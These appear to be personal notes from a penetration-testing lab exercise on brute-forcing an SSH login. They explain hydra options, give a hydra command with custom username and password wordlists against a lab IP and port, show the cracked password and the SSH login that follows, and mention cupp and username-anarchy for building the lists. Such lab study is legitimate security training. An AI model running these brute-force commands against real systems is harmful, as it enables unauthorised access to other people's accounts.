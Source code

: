 💡

imp notes :

so we used -L user.txt

-P pass.txt

-U

-f to stop at first success credentials

ssh://ip:port

-t 4 makes it only four attempts parallel to each other

  

after brute forcing the ssh service for the targeted ip with hydra and know the correct user:pass we will go on and ssh - ing

```
ssh user@ip -p port
```

so as we saw to attempt to ssh using those credintials for that ip address at that port we will use them as following :

`ssh b.gates@``178.35.49.134 -p 22`

then it will ask for the password : ********

b.gates@bruteforcing:~$

as we saw we will find a secure shell for the target opened on the terminal via the brute forced credintials that we made using our personalized lists of user : pass

via the tools cupp for the password and username-anarachy for the username.

  

  

### task :

1. we have the lists ( -l bill.txt)( -p william.txt)
2. we will first start by nmap the ip target we will find 21,22 ports open
3. we will target the ssh 22 port that will be the user b.gates
4. we will then start by this command :
    
    ```
    hydra -l b.gates -P william.txt ssh://94.237.56.76:36375 -f -t 4 
    ```
    
    we will get password `4dn1l3M!$` from this then we will use those credentials to open a secure shell in the target
    
    ```
    ssh b.gates@94.237.56.76 -p 22
    ```
    
    then we will use ls to see the files we have
    